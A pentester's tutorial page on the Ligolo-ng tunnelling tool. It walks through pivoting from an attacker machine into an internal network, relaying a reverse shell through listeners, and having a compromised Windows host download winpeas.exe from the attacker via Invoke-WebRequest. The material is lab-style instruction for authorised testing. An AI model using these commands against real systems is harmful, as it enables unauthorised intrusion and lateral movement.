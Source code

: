 # Ligolo-ng

**Ligolo-ng** is a _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS).

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

## Setting Up

{% embed url="https://github.com/nicocha30/ligolo-ng/releases" %}

For the setup, we need only two files. Agent and Proxy

Agent: File to be installed on pivot machine\
Proxy: File to be installed on attacker machine

## Attack Scenario 1

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

For this first attack scenario, we have our attacker machine (kali) and pivot machine (ubuntu).\
Pivot machine has an additional network interface (172.16.1.15).\
We cannot ping/access this {172.16.1.15} network from our attacker machine (kali).

Lets get access to this network

In our attacker machine\
`sudo ip tuntap add user [your_username] mode tun ligolo`\
this will add new tun interface `ligolo`\
`sudo ip link set ligolo up`\
this will enable the newly created interface `ligolo`

Now we need two file\
`ligolo-ng_agent_version-linux_version.tar.gz` for pivot machine\
`ligolo-ng_proxy_version-linux_version.tar.gz`for attacker machine

get latest version form official github repo.

Then transfer the agent file to the pivot machine (ubuntu)

### In attacker machine

`./proxy -selfcert`

### In pivot machine

`./agent -connect kali_linux_ip:11601 -ignore-cert`\
port `11601` is by default set on proxy in the attacker machine\
we should use `-autocert` flag when the pivot machine has internet access. This is more secure than `-ignore-cert`

### In attacker machine

`session` to list the session and select the session we want to connect\
`ifconfig or ipconfig` to view the interface of the pivot machine.

Now in new terminal\
sudo ip route add `172.16.1.0/24 dev ligolo`\
here we are adding route for 172.16.1.0/24 network

once the route is set.

Go back to the terminal where agent is agent is running\
`start` -> this wll start tunnel to the pivot machine.

Now we have connection to the `172.16.1.0/24`network\
Meaning we can view the webserver running on port 80 of windows `172.16.1.16`

## Getting Reverse Shell

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Lets say we now have access to the windows machine on `172.16.1.0/24` which was previously not routable from our attacker host. Now we want reverse shell connection from that machine (windows).

That windows machine cannot reach us, it does not have route to our ip, it can only reach the pivot machine.

To solve this

We can listen to ports on Agent (pivot machine) and redirect the connection back to us (attacker machine)

we can set this up using

*   In attacker proxy terminal\
    `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp`

    on the pivot machine, any device or interface on port `30000` will redirect our port `10000`

Which means we can create a payload with\
lhost: 172.16.1.15\
lport: 10000

when the pivot machine gets data on port 30000\
it will redirecto it to port 10000 on our attacker machine(kali)\\

Meaning we can listen on 10000 to get the reverse shell connection.

## Transferring File Between Machines

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To transfer files, we can add another listener.

`listener_add --addr 0.0.0.0:11111 --to 127.0.0.1:22222 --tcp`

In our attacker machine run python http server on port 22222

In windows target machine, download the file using

`Invoke-WebRequest -Uri "http://172.16.1.15:11111/winpeas.exe" -OutFile winpeas.exe`

Here, windows will send request to port 11111 on pivot (ubuntu) and ligolo-ng will redirect it to port 22222 on our attacker machine\
\
\
For more insight, watch this video by John Hammond

{% embed url="https://youtu.be/qou7shRlX_s" %}
